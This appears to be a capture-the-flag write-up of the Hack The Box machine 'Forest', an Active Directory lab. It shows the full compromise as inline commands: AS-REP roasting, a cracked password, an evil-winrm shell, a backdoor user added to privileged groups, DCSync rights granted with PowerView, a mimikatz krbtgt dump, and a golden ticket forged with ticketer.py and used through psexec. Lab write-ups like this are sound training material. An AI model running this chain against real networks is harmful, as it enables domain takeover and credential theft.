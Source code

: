 ```yaml
---
title: Forest HTB
date: '2020-03-21 18:10:00'
categories: ["htb"]
---
```


# Forest 🌲

# Recon  

A lot of open ports found in this windows box `53,88,135,139,389,445,464,593,636,3268,3269`, First I am going to try smb on port 445 using smbmap `smbmap -H 10.10.10.161` to see if any of the shares are open, but nothing. At this point I run enum4linux hopefully getting some juicy usernames to try on smbmap. `enum4linux -U 10.10.10.161`, I get a list of usernames and I write it to a notepad. I try some of the but nothing comes up.So at this point smb does't do much for me. I try to look into ldap using jxplorer, but nothing there also. Since there is kerberos, I download impacket and look into the examples script. There is a script which allows me to grab tgt of some users which kerberos does not require them preauthentication. I will use this command `./GetNPUsers.py htb.local/ -no-pass -usersfile user.txt`, I get a result of the tgt for user *svc-alfresco*, I crack this using hashcat, and get the password *s3rvice*.

# User

Trying this user with smb does not give me much neither does with any other service on the ports we found. So I scan again using nmap on all ports and find out winrm port open `5985`. I use a tool named evil-winrm to get a powershell shell on the box, and grab user.txt.

# Root

I upload to the box and import using `. .\bloodhound.ps1`, 2 powershell scripts, first is **bloodhound.ps1** and the other is **powerview.ps1**.
 
 1. I am going to run BloodHound.ps1  `Invoke-Bloodhound -CollectionMethod All -LdapPort 389 -LdaPpass s3rvice`, this would create a zip file which I copy to my local box, and after that I import it to bloodhound application to view a path to *Domain admin*.
 
 ![screen](https://user-images.githubusercontent.com/16364370/68093937-0b047580-fe93-11e9-8c46-a0978709410e.png)
 
  I generate an exe file using msfvenom and upload it into the box using impacket-smbserver. I execute the file and get a    meterpreter shell on my host. I create a new user using `net user fuxsocy passwordhere! /add` and then add him to account *operators group* and *exchange windows permission* and `remote managemenet` by typing `net GroupNAMEHERE group_name fuxsocy /add`.
  
  2. Now I log out from evil-winrm and login as the new created user. I upload get again a meterpreter reverse shell, and now since I am member of EXCHANGE WINDOWS PERMISSIONS i have permision to modifyd DACL(Discretionary Access Control List) which will grant me access to an object. I open powershell from meterpreter by opening  `shell` and then `powershell.exe` I import `. .\powerview.ps1` I type *`Add-DomainObjectAcl -TargetIdentity htb.local -Rights DCSync`*. If no erros shows then I am good to go. I upload *mimkatz* on the box, and run it using `.\mimikatz.exe`. Then I type lsa::dsync /user:krbtgt and grab the output from it.

-------------
  
  Since I have the tgt of that krbtgt user I can use ticketer.py from impacket to create a golden ticket. `python ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain HTB.local administrator` and then set the filename to a variable named KRB5CCNAME using `export KRB5CCNAME=administrator.ccache`, now I have golden ticket which I can use with psexec to execute commands on the box as administator. I use `psexec.py -k -n htb.local/administrator@forest.htb.local cmd.exe` Which will pop a shell as nt authority\system.